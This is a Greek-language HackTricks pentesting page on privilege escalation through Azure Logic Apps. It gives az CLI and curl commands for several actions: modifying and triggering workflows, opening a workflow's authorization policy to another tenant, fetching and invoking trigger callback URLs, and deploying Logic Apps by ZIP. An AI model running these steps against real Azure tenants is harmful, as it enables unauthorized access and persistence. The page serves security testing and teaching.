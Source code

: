 # Az - Logic Apps Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Logic Apps Privesc
Για περισσότερες πληροφορίες σχετικά με τη SQL Database, ελέγξτε:

{{#ref}}
../az-services/az-logic-apps.md
{{#endref}}

### (`Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.Logic/workflows/read`, `Microsoft.Logic/workflows/write` && `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`) && (`Microsoft.Logic/workflows/triggers/run/action`)

Με αυτή την άδεια, μπορείτε να δημιουργήσετε ή να ενημερώσετε, Azure Logic Apps workflows. Τα workflows ορίζουν αυτοματοποιημένες διαδικασίες και ενσωματώσεις μεταξύ διαφόρων συστημάτων και υπηρεσιών.
```bash
az logic workflow create \
--resource-group <resource_group_name> \
--name <workflow_name> \
--definition <workflow_definition_file.json> \
--location <location>

az logic workflow update \
--name my-new-workflow \
--resource-group logicappgroup \
--definition <workflow_definition_file.json>
```
Και μετά την αλλαγή του, μπορείτε να το εκτελέσετε με:
```bash
az rest \
--method post \
--uri "https://management.azure.com/subscriptions/{subscriptionId}/resourcegroups/{resourceGroupName}/providers/Microsoft.Logic/workflows/{logicAppName}/triggers/{triggerName}/run?api-version=2016-10-01" \
--body '{}' \
--headers "Content-Type=application/json"
```
Επιπλέον, με απλά `Microsoft.Logic/workflows/write` μπορείτε να αλλάξετε την Πολιτική Εξουσιοδότησης, δίνοντας για παράδειγμα σε έναν άλλο ενοικιαστή τη δυνατότητα να ενεργοποιήσει τη ροή εργασίας:
```bash
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<resource-group-name>/providers/Microsoft.Logic/workflows/<workflow-name>?api-version=2016-10-01" \
--body '{
"location": "<region>",
"properties": {
"definition": {
"$schema": "https://schema.management.azure.com/providers/Microsoft.Logic/schemas/2016-06-01/workflowdefinition.json#",
"contentVersion": "1.0.0.0",
"parameters": {
"$connections": {
"defaultValue": {},
"type": "Object"
}
},
"triggers": {
"<trigger-name>": {
"type": "Request",
"kind": "Http"
}
},
"actions": {},
"outputs": {}
},
"accessControl": {
"triggers": {
"openAuthenticationPolicies": {
"policies": {
"<policy-name>": {
"type": "AAD",
"claims": [
{
"name": "iss",
"value": "<issuer-url>"
}
]
}
}
}
}
}
}
}'

```
### `Microsoft.Logic/workflows/triggers/listCallbackUrl/action`
Μπορείτε να αποκτήσετε το callback URL του trigger και να το εκτελέσετε.
```bash
az rest --method POST \
--uri "https://management.azure.com/subscriptions/<subscription_id>/resourceGroups/<resource_group>/providers/Microsoft.Logic/workflows/<workflow_name>/triggers/<trigger_name>/listCallbackUrl?api-version=2019-05-01"
```
Αυτό θα επιστρέψει μια διεύθυνση URL callback όπως `https://prod-28.centralus.logic.azure.com:443/workflows/....`. Τώρα μπορούμε να το εκτελέσουμε με:
```bash
curl --request POST \
--url "https://prod-28.centralus.logic.azure.com:443/workflows/<workflow_id>/triggers/<trigger_name>/paths/invoke?api-version=2019-05-01&sp=%2Ftriggers%2F<trigger_name>%2Frun&sv=1.0&sig=<signature>" \
--header 'Content-Type: application/json' \
--data '{"exampleKey": "exampleValue"}'
```
### (`Microsoft.Web/sites/read`, `Microsoft.Web/sites/basicPublishingCredentialsPolicies/read`, `Microsoft.Web/sites/write`, `Microsoft.Web/sites/config/list/action`) && (`Microsoft.Web/sites/start/action`)
Με αυτές τις άδειες, μπορείτε να αναπτύξετε ροές εργασίας Logic App χρησιμοποιώντας αναπτύξεις αρχείων ZIP. Αυτές οι άδειες επιτρέπουν ενέργειες όπως η ανάγνωση λεπτομερειών εφαρμογής, η πρόσβαση σε διαπιστευτήρια δημοσίευσης, η εγγραφή αλλαγών και η καταγραφή ρυθμίσεων εφαρμογής. Μαζί με τις άδειες εκκίνησης, μπορείτε να ενημερώσετε και να αναπτύξετε μια νέα Logic App με το επιθυμητό περιεχόμενο.
```bash
az logicapp deployment source config-zip \
--name <logic_app_name> \
--resource-group <resource_group_name> \
--src <path_to_zip_file>
```
{{#include ../../../banners/hacktricks-training.md}}
